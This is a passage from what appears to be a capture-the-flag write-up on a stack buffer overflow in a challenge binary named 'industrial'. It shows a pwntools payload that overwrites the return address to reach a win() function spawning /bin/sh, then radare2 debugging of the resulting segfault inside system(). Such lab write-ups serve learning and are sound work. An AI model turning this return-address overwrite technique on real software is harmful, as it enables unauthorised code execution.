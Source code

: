 ```python
from pwn import *

payload = b"A" * 32 + p64(0x01) + p64(0x004011b6)  # Overflow + new return address
with open("payload.bin", "wb") as f:
    f.write(payload)
```

I entered `0x0000000000000001` after the A's as I try to keep the same value at rbp so as to not mess the stack. Although since this rbp is already uncommon, it wouldn't matter if we use 40 A's instead. So we prepare our rarun file and run radare.

```bash
#!/usr/bin/rarun2

program=./industrial
stdin=./payload_0a.bin
```

```as
$ r2 -r run.rr2 -d industrial
WARN: Relocs has not been applied. Please use `-e bin.relocs.apply=true` or `-e bin.cache=true` next time
[0x7fb5ab8f5440]> aaa
INFO: Analyze all flags starting with sym. and entry0 (aa)
INFO: Analyze imports (af@@@i)
INFO: Analyze entrypoint (af@ entry0)
...
INFO: Recovering local variables (afva@@@F)
INFO: Use -AA or aaaa to perform additional experimental analysis
[0x7fb5ab8f5440]> pdf @ sym.win
┌ 26: sym.win ();
│           0x004011b6      f30f1efa       endbr64
│           0x004011ba      55             push rbp
│           0x004011bb      4889e5         mov rbp, rsp
│           0x004011be      488d053f0e..   lea rax, str._bin_sh    ; 0x402004 ; "/bin/sh"
│           0x004011c5      4889c7         mov rdi, rax
│           0x004011c8      e8c3feffff     call sym.imp.system     ; int system(const char *string)
│           0x004011cd      90             nop
│           0x004011ce      5d             pop rbp
└           0x004011cf      c3             ret
[0x7fb5ab8f5440]> db 0x004011c8
[0x7fb5ab8f5440]> db 0x004011cd
[0x7fb5ab8f5440]> dc
Enter the next command : Thanks
INFO: hit breakpoint at: 0x4011c8
[0x004011c8]> dc
[+] SIGNAL 11 errno=0 addr=0x00000000 code=128 si_pid=0 ret=0
[0x7f764c1d2df4]>
```

So we do see that we entered the `win()` function, but it returned a segmentation fault when continued, and specifically it SIGSEGVs within the `system()` function due to the [SIGNAL 11](https://man7.org/linux/man-pages/man7/signal.7.html) before reaching the next breakpoint. But why? One possible reason could us messing with the `rbp` value, and the `system()` function when making internal calls tried referencing some restricted `rbp+offset` value. But we tried to put the same `rbp` value we saw so please let me know if you know. But for now, we can try skipping the function prologue so as to not push weird values onto the stack and go straight to the function (at `0x004011be`) and run the program again similarly.
